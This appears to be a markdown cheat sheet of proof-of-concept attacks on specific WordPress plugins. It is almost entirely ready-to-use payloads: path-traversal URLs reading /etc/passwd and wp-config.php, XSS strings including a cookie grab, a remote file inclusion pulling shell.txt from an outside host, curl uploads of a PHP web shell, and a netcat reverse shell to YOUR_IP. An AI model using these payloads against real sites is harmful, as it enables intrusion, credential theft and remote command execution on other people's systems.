 ### WordPress plugin vulnerabilities

#### mail-masta - LFI
- **PoC**:  
  `http://target.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

---

#### localize-my-post - LFI
- **PoC**:  
  `http://target.com/wp-content/plugins/localize-my-post/ajax/include.php?file=../../../../../../../etc/passwd`  
  `http://target.com/wp-content/plugins/localize-my-post/ajax/include.php?file=../../../../../../var/log/apache2/access.log`

---

#### anti-plagiarism - XSS
- **PoC**:  
  `http://target.com/wp-content/plugins/anti-plagiarism/js.php?m=</script><script>alert(1)</script>`

---

#### simple-image-manipulator - LFI
- **PoC**:  
  `http://target.com/wp-content/plugins/simple-image-manipulator/controller/download.php?filepath=../../../../wp-config.php`

---

#### activehelper-livehelp - XSS
- **PoC**:  
  `http://target.com/wp-content/plugins/activehelper-livehelp/server/offline.php?MESSAGE=MESSAGE<script>alert(document.cookie)</script>`

---

#### amministrazione-aperta - LFI
- **PoC**:  
  `http://target.com/wp-content/plugins/amministrazione-aperta/wpgov/dispatcher.php?open=../../../../etc/passwd`

---

#### buddypress-component-stats - RFI/LFI
- **PoC**:  
  `http://target.com/wp-content/plugins/buddypress-component-stats/lib/dompdf/dompdf.php?input_file=http://malicious-site.com/shell.txt`  
- **Note**: Remote File Inclusion (RFI) — allows loading malicious files from an external server.

---

#### e-search - XSS
- **PoC**:  
  `http://target.com/wp-content/plugins/e-search/tmpl/title_az.php?title_az=</title><svg/onload=alert(1)>`

---

#### dzs-videogallery - Arbitrary file upload → RCE
- **PoC**:  
  ```bash
  curl -F "file=@/home/kali/shell.php" https://target.com/wp-content/plugins/dzs-videogallery/admin/upload.php
  ```
- **Shell content**:
  ```php
  <?php
  system($_GET['cmd']);
  ?>
  ```
- **Access the shell**:  
  `https://target.com/wp-content/plugins/dzs-videogallery/uploads/shell.php?cmd=whoami`
- **Reverse shell with Netcat**:  
  `https://target.com/wp-content/plugins/dzs-videogallery/uploads/shell.php?cmd=nc -e /bin/bash YOUR_IP 4444`
- **Tip**: Use [Arjun](https://github.com/s0md3v/Arjun) to discover hidden form parameters.

---

#### fancy-product-designer - Arbitrary file upload → RCE or LFI
- **PoC**:  
  ```bash
  curl -F "image=@/home/kali/shell.php" https://target.com/wp-content/plugins/fancy-product-designer/inc/custom-image-handler.php
  ```
- **Same method as above** (dzs-videogallery)

---

#### hd-webplayer - LFI
- **PoC**:  
  `http://target.com/wp-content/plugins/hd-webplayer/playlist.php?file=../../../../wp-config.php`
